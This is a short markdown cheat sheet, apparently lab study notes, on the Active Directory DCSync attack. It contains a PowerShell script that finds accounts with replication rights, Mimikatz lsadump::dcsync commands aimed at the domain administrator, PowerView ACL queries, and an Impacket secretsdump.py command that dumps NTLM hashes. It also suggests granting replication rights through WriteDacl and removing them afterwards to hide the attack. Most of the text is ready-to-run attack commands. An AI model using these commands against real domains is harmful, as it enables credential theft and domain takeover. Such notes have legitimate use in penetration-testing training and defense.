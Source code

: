 # 🔁 DCSync

To find accounts that can DCSync use:

```
#Get all permissions in the domain, filtered to the two critical replication permissions represented by their GUIDs
Import-Module ActiveDirectory
cd 'AD:DC=JEFFLAB,DC=local' # Replace with distinguished name of your domain
$AllReplACLs = (Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

#Filter this list to RIDs above 1000 which will exclude well-known Administrator groups
foreach ($ACL in $AllReplACLs)
{
    $user = New-Object System.Security.Principal.NTAccount($ACL.IdentityReference)
    $SID = $user.Translate([System.Security.Principal.SecurityIdentifier])
    $RID = $SID.ToString().Split("-")[7]
    if([int]$RID -gt 1000)
    {
        Write-Host "Permission to Sync AD granted to:" $ACL.IdentityReference
    }
}
```

## Mimikatz

```
.\mimikatz.exe privilege::debug
```

Privilege '20' OK

```
lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator 
```

Refer this for [mimikatz version](https://blog.netwrix.com/2022/09/30/extracting-user-password-data-with-mimikatz-dcsync/)

## Powerview

Refer [this](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)

To get Group Membership

```
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
```

Then to get the replication rights:

```
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRigh
ts,SecurityIdentifier,ObjectAceType | fl
```

If we had certain rights over the user (such as WriteDacl), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks. DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py. Let's see a few quick examples.

Now to get NTLM hash:

```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```
